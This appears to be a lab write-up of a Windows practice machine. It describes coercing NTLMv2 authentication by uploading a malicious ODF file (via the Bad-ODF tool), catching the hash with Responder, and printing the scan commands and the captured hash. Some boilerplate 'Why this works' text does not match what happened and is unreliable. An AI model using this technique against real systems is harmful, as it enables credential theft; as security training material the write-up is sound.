

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows (Server 2019 / Windows 10) |
| Difficulty                | Not specified |
| Attack Surface            | Web application (ODF file upload) |
| Primary Entry Vector      | Malicious ODF file triggering SMB callback -> NTLMv2 hash capture |
| Privilege Escalation Path | Not required (hash obtained directly) |

## Credentials

```text
thecybergeek (NTLMv2 hash captured — see below)
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.169:80
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
```

Only port 80 was open, running Apache with PHP on Windows. The web application presented an upload form expecting ODF (OpenDocument Format) files.

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

The web application accepted ODF file uploads. Using Bad-ODF, a malicious ODF file was crafted that triggers an SMB connection back to the attacker when opened:

https://github.com/lof1sec/Bad-ODF

Responder was started to capture NTLMv2 hashes from the incoming SMB authentication:

```bash
sudo responder -I tun0 -v
```

After uploading the malicious ODF file, the target connected back and leaked the NTLMv2 hash:

```bash
[SMB] NTLMv2-SSP Client   : 192.168.198.169
[SMB] NTLMv2-SSP Username : CRAFT\thecybergeek
[SMB] NTLMv2-SSP Hash     : thecybergeek::CRAFT:d762b2bc23231e76:89849AF070CAE121AE7773CF31521B85:010100000000000000DD0DF1CAB1DC01032AD9CD193B0FB30000000002000800550047004A00410001001E00570049004E002D00560055004D004A004C004A005600590050005600540004003400570049004E002D00560055004D004A004C004A00560059005000560054002E00550047004A0041002E004C004F00430041004C0003001400550047004A0041002E004C004F00430041004C0005001400550047004A0041002E004C004F00430041004C000700080000DD0DF1CAB1DC010600040002000000080030003000000000000000000000000030000043ABF916FDC8A72DE8EA429BF9F6277BBC0E89B9782565732D93AB4DA393C12D0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003100360036000000000000000000
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
This machine was solved using the same technique as Craft2 — the NTLMv2 hash capture via ODF macro and Responder was the primary attack path. No additional privilege escalation was required beyond capturing and cracking the hash.

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- ODF macro files can embed SMB callbacks that force authentication to attacker-controlled servers.
- Responder is effective at capturing NTLMv2 hashes when a target can be coerced into initiating SMB connections.
- Bad-ODF automates the creation of malicious ODF documents for hash capture scenarios.
- Minimal attack surface (single open port) does not mean low risk — document upload functionality can be weaponized.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- Bad-ODF: https://github.com/lof1sec/Bad-ODF
- Responder: https://github.com/lgandx/Responder
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
